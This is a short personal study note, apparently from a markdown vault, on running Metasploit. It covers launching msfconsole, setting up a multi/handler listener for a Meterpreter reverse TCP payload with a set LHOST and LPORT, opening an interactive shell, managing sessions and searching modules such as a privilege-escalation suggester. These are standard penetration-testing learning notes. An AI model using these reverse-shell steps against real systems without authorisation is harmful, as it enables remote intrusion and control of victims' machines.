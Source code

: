 
----

# To run the program

This run the Metasploit Framework Database **service**

> sudo msfdb run

or

This launch the Metasploit Framework console

> msfconsole

---- 

# Create listener
If you create a payload with [[Msfvenom]] you have to listener if the program is open with the next steps:
1.  Indicate the method that you are going to use
> 	use exploit/multi/handler
2.  Set the payload, in this case we use the established with msfvenom
>	set payload windows/x64/meterpreter/reverse_tcp
3. You can see the available options with:
> 	show options	
4. To put the option put this:
>	set LHOST 172.21.7.214
>	set LPORT 4646

5. Execute the program with this commands
>	run
>	exploit

6. To have an interactive shell you can put:
>	shell

7. To exit of interactive shell:
>	exit

----
# Put a session in background

You can put the session in background with this command

> background


## To see the session in background

> sessions


This is useful to upload modules

## Return to the session

> sessions -i NUMBEROFSESSION

-----

# Modules

## How to find modules

> search NAMEMODULE

### Module suggester

This module search potential ways to elevate privileges



----

# Tags

#tools #metasploit 

----